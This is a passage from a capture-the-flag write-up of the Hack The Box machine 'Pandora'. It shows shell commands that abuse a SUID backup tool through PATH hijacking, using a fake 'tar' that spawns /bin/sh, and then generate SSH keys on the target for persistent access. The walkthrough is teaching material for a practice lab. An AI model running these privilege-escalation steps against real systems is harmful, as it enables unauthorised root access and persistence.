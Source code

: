 Ok cool, `tar` is being invoked, but because its not using the abolute path `/usr/bin/tar` we can create our own malicious 'tar', update the `$PATH` and the program should execute our tar file with root permissions.

Lets try it:

```
matt@pandora:/tmp$ touch tar
matt@pandora:/tmp$ echo "/bin/sh" > tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ PATH=/tmp:$PATH
matt@pandora:/tmp$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
$ whoami
matt
```

I got stuck here for ages. This should be working to get me root, but everytime I ran it I just came back into a bash shell as ...matt... But why?

Looking around for answers I found 0xdf's writeup of the box, and he explains why in his "Beyond Root" section. Apparently there is an issue with Apache /mpm-itk and the inheritence of SUID privileges. Its an interesting read and I reccomend it, even if I don't totally understand it all: https://0xdf.gitlab.io/2022/05/21/htb-pandora.html#beyond-root

Anyways, the workaround here is getting SSH access as Matt, which allows us to exploit the pandora_backup as attempted before, but this time successfully.

To get SSH access first we'll need to generate some keys. I'll set this up on the target, and then transfer the id_rsa back over to my attacking machine:

```
matt@pandora:/home/matt$ mkdir .ssh
mkdir .ssh
matt@pandora:/home/matt$ cd .ssh
cd .ssh
matt@pandora:/home/matt/.ssh$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/matt/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:n7wX2y8P3YQqSQ5MDSzpSTCFNYuY4x5e8tfDTymvamQ matt@pandora
The key's randomart image is:
+---[RSA 3072]----+
|    o=+o.        |
|   o.o+o.o       |
|  + .o.o. .      |
| . .  oo       . |
|  + .   S .   . .|
| o =  Eo * +.. o.|
|  o .o. = X .+. o|
|     ..  * oo o. |
|     .....+.   +o|
+----[SHA256]-----+
matt@pandora:/home/matt/.ssh$ ls
ls
id_rsa  id_rsa.pub
matt@pandora:/home/matt/.ssh$ touch authorized_keys
touch authorized_keys
```